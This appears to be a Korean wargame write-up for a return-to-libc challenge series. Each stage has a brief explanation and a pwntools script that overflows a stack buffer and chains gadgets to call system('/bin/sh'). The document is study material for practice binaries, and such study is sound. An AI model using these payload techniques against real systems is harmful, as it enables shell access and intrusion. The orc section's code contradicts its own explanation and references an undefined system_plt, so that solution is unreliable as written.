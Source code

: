 # load_of_rtl

## cobolt

You can use write, read, system and /bin/sh  
gdb를 통해 디버깅하여 system_plt = 0x4010b0임을 알 수 있고, pop_rdi 가젯의 주소와 /bin/sh의 주소를 확인할 수 있다.
버퍼의 크기와 dummy, SFP를 덮은 뒤 ret를 pop_rdi 가젯의 주소로 덮는다. pop_rdi 가젯을 활용하면 rdi에 /bin/sh의 주소를 넣은 뒤 system 함수의 plt로 return하여 system("/bin/sh")를 호출하게 된다.


```python
from pwn import *

p = process("./cobolt")

pop_rdi = 0x401353
binsh = 0x404060
system_plt = 0x4010b0

p.recvuntil(b"You can use write, read, system and /bin/sh\n")

payload = b'A'*0x40
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rdi+1)
payload += p64(system_plt)
p.send(payload)

p.interactive()
```


## goblin

  
You can use read and system  
gdb를 통해 디버깅하여 read함수의 주소와 system함수의 주소를 알아낼 수 있다. "/bin/sh" 문자열이 필요하므로 ASLR의 영향을 받지 않는 bss영역에 문자열을 작성해야 한다. read(0,bss,8) 함수를 이용하여 bss영역에 문자열을 작성할 수 있다. 이와 같은 방식으로 RTL을 반복할 수 있다. 이후 system함수의 주소와 "/bin/sh" 주소를 쓰면 함수를 실행할 수 있다.

```python
from pwn import *

p = process("./goblin")

pop_ret = 0x08049022
pop3_ret = 0x08049391
read_plt = 0x80490b0
system_plt = 0x80490e0
bss = 0x804c030 + 0x300
main = 0x80492f3


payload = b'A'*0x44
payload += b'B'*0x4
# bss영역에 /bin/sh 저장
payload += p32(read_plt)
payload += p32(pop3_ret)
payload += p32(0)
payload += p32(bss)
payload += p32(8)
# system 실행
payload += p32(system_plt) 
payload += b'C'*0x4
payload += p32(bss)
p.send(payload)

# /bin/sh 보내기
sleep(0.1)
p.send(b"/bin/sh\x00")

p.interactive()
```





## gremlin


You can use write, read, system and /bin/sh  
system("/bin/sh")를 호출하기 위해 system함수의 주소와 "/bin/sh"의 주소를 구한다. ret를 system함수로 덮어주고 esp+0x4 자리에 "/bin/sh"의 주소를 쓰고 사이를 더미값으로 채워주면 system("/bin/sh")를 호출할 수 있다.

```python
from pwn import *

p = process("./gremlin")

system_plt = 0x80490f0
binsh = 0x804c034

# system("/bin/sh") 실행
p.recvuntil(b"You can use write, read, system and /bin/sh\n")
payload = b'A'*0x44
payload += b'B'*0x4
payload += p32(system_plt)
payload += b'C'*0x4
payload += p32(binsh)
pause()
p.send(payload)

p.interactive()
```



## orc 

You can use only read  
read를 사용하여 "/bin/sh"를 bss 영역에 쓸 수 있지만, system함수가 주어지지 않았으므로 라이브러리에서 찾아야 한다. read함수를 사용할 수 있으므로 현재 프로세스에서 libc_base를 구한 뒤 offset을 더하여 system 함수를 사용할 수 있다.

```python
from pwn import *

p = process("./orc")

pop_ret = 0x08049022
pop3_ret = 0x08049391
read_plt = 0x80490b0
bss = 0x804c030 + 0x300
main = 0x80492f3


payload = b'A'*0x44
payload += b'B'*0x4
# bss영역에 /bin/sh 저장
payload += p32(read_plt)
payload += p32(pop3_ret)
payload += p32(0)
payload += p32(bss)
payload += p32(8)




# system 실행
payload += p32(system_plt)
payload += b'C'*0x4
payload += p32(bss)
p.send(payload)

# /bin/sh 보내기
sleep(0.1)
p.send(b"/bin/sh\x00")

p.interactive()

```


## wolfman
